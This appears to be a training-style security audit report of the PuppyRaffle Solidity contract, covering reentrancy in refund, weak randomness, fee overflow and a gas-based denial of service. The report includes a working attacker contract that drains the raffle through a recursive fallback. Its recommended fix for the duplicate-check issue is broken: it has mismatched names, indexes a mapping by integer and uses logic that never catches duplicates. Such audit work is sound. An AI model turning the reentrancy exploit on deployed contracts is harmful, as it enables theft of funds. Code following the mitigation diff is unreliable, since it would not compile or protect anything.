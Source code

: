 ### [H-1] Reentrancy Attack found in `PuppleRaffle::refund`, allowing attacker to steal the contract balance

**Description** 

The `PuppleRaffle::refund` function is vulnerable to reentrancy due to its current design, potentially allowing an attacker to exploit the contract's state before executing the necessary state changes. in the `PuppleRaffle::refund` function, we know that the function doing external call and then change the statement of contract.

```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

A player who has entered the raffle could have fallback/receive function to exploit the contract after player doing. Fallback/receive will execute recursively before state of the contract change and automatically steal all of ether.

**Impact**

In the worst-case scenario, an attacker could drain the entire ETH balance of the contract if successful, leading to a loss of all funds held by the `PuppleRaffle` contract.

**Vulnerability Explanation**

The refund function allows a player to withdraw their entrance fee (`entranceFee`) by sending ETH back to `msg.sender`. However, this function does not follow the Checks-Effects-Interactions (CEI) pattern, which is crucial in preventing reentrancy attacks. After sending ETH (`sendValue`), the function changes the contract state (`players[playerIndex] = address(0);`). This sequence of operations allows an attacker to recursively call back into the contract before the state is updated, potentially stealing more ETH than they are entitled to.

**Proof of Concepts**

<details>

<summary> Code </summary>

```javascript

Contract PuppyRaffleTest is Test {
    ...
    modifier playersEntered() {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        _;
    }

    function test_reentrancyRefund() public playersEntered {
        AttackerReentrancy attackerContract = new AttackerReentrancy(puppyRaffle);
        
        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        console.log("starting attack contract balance : ", startingAttackContractBalance);
        console.log("starting puppy raffle balance : ", startingPuppyRaffleBalance);

        attackerContract.attack{value: entranceFee}();
        
        uint256 endingAttackContractBalance = address(attackerContract).balance;
        uint256 endingPuppyRaffleBalance = address(puppyRaffle).balance;

        console.log("ending attack contract balance : ", endingAttackContractBalance);
        console.log("ending puppy raffle balance : ", endingPuppyRaffleBalance);
    }

}

contract AttackerReentrancy {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee ;
    uint256 attackerIndex;

    constructor(PuppyRaffle puppyRuffle_){
        puppyRaffle = puppyRuffle_;
        entranceFee = puppyRaffle.entranceFee();
    } 

    function attack() external payable {
        address[] memory addressContract = new address[](1);
        addressContract[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(addressContract);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if(address(puppyRaffle).balance > 0){
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable{
        _stealMoney();
    }

    receive() external payable{
        _stealMoney();
    }
}

```

</details>

**Recommended mitigation**

To avoid this problem, there are many ways such as using CEI pattern, using openzeppelin contract `ReentrancyGuard` as well, but i just show you how to implement CEI pattern for function `PuppleRaffle::refund`.

Before : 

```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    payable(msg.sender).sendValue(entranceFee);
    
    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

After : 

```javascript
function refund(uint256 playerIndex) public {
    // Check
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // Effect
    players[playerIndex] = address(0);

    // Interact
    payable(msg.sender).sendValue(entranceFee);    
    emit RaffleRefunded(playerAddress);
}
```


### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to set up become winner

**Description** 

There are codes that associate with the problem in `PuppyRaffle::selectWinner`.

```javascript
function selectWinner() external {
    uint256 winnerIndex =
        uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
}
```

Hashing the `msg.sender`, `block.timestamp`, and `block.difficulty` together created a final number that easily to predict. A number which can be predicted is not good enough for random number generation. Malicious users can manipulate this number to choose the winner of the raffle.

**Impact**

Any users can choose the winner of raffle, winning the money and selecting the rarest puppy, essentially making it such that all puppies have th same rarity, since you can choose the puppy

**Proof of Concepts**

There are a few attack vectors here.
1. Validators can know ahead of time the block.timestamp and block.difficulty and use that knowledge to predict when / how to participate. See the solidity blog on prevrando [here](https://soliditydeveloper.com/prevrandao). block.difficulty was recently replaced with prevrandao.
2. Users can manipulate the `msg.sender` value to result in their index being the winner.

**Recommended mitigation** 

Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

### [H-3] Math overflow in `PuppyRaffle::selectWinner` can make the contract losing the balance of total fees

**Description** 

In solidity prior of 0.8.0, aritmathic operation not checked for underflow or overflow. If underflow of overflow happen, result operation may not revert and automatically reset to zero or total result modulo max of type data. In PuppyRaffle contract, i found the operation can make the operation is overflow, there are

```javascript
    uint64 totalfees = 0;
    ...
    uint256 fee = (totalAmountCollected * 20) / 100;
@>  totalFees = totalFees + uint64(fee);
```
**Impact** 

Because of math overflow happen, so we will automatically losing total of balance fee and the total balance fees will reset into 0 or be modulo with type(uint64).max

**Proof of Concepts**

Let we have `totalFees = 18446744073709551615` and then we have added fees 

<details>

<summary> Code </summary>

```javascript
totalFees = totalFees               +   uint64(fee)
        // 18446744073709551615     +  19 

totalFees
// output: 18 
```
</details>

**Recommended mitigation**

TO prevent this situation, it must be changed type data of `totalFees` from `uint64` to `uint256` to avoid overflow operation. And also use solidity version 0.8.0 or higher because on those version, every operation underflow and overflow will be reverted.


### [M-1] Looping through the players array to check for duplicate in `PuppleRuffle::enterRaffle` could potentially lead to Denial of Service (DoS) attack, increasing gas cost in the future

**Description**

The `PuppleRuffle::enterRaffle` function includes a duplicate checking mechanism that loops through the `players` array. As the array lengthens, the increasing number of iterations required for duplicate checks can result in higher gas costs. Consequently, `players` who enter earlier may incur lower gas costs compared to those who enter later

**Impact**

The impact is two-fold.
1. The gas cost for raffle entrants will greatly increase as more players enter the raffle
2. Front running opportunities are created for malicious user to increase gas cost of other user, so their transaction fails. 

**Proof of Concepts**

If we have 2 sets of scenario for entrance the ruffle, first set contain 100 player as well as second set. 
- First scenario : 6252041
- Second scenario : 18068131

This due to the for loop in the `PuppleRuffle::enterRaffle` function : 

``` javascript
for (uint256 i = 0; i < players.length - 1; i++) {
          for (uint256 j = i + 1; j < players.length; j++) {
              require(players[i] != players[j], "PuppyRaffle: Duplicate player");
          }
      }
```

<details>

<summary> Proof of code </summary>

Place following test into `PuppleRuffleTest.t.sol`

```javascript
function test_denialOfServices() public {
      uint256 playersNum = 100;
      address[] memory playersAddress = new address[](playersNum);
      for(uint256 i; i<playersNum; i++){
          playersAddress[i] = address(i);
      }
      
      vm.txGasPrice(1);
      uint256 gasStart = gasleft();
      puppyRaffle.enterRaffle{value: entranceFee * playersAddress.length}(playersAddress);
      uint256 gasEnd = gasleft();

      uint256 gasUsedFirst = ((gasStart - gasEnd) * tx.gasprice);

      uint256 playersNumTwo = 100;
      address[] memory playersAddressTwo = new address[](playersNumTwo);
      for(uint256 i; i<playersNumTwo; i++){
          playersAddressTwo[i] = address(i + playersNumTwo);
      }
      
      vm.txGasPrice(1);
      uint256 gasStartTwo = gasleft();
      puppyRaffle.enterRaffle{value: entranceFee * playersAddressTwo.length}(playersAddressTwo);
      uint256 gasEndTwo = gasleft();
      uint256 gasUsedSecond = ((gasStartTwo - gasEndTwo) * tx.gasprice);
      
      console.log("gas used first 100 players ", gasUsedFirst);
      console.log("gas used second 100 players ", gasUsedSecond);

      assert(gasUsedFirst < gasUsedSecond);
  }

```

</details>


**Recommended mitigation**

There are a few recommendations.

1. consider allowing duplicates. Users can make a new wallet addresess anyways. so a duplicate checking doesn't prevent the same person from entering raffle multiple times. 
2. Consider using a mapping to check for duplicates. This allow constant time lookup of whether a user has already entered. 
```diff
+   mappings(address => bool) playersMappings;

    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+           playersMappings[newPlayers[i]] = true;
        }

-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
+       for (uint256 i = 0; i < players.length; i++){
+           require(playerMappings[i] == true, "Duplicate players");
+       }
        emit RaffleEnter(newPlayers); 
    }
```

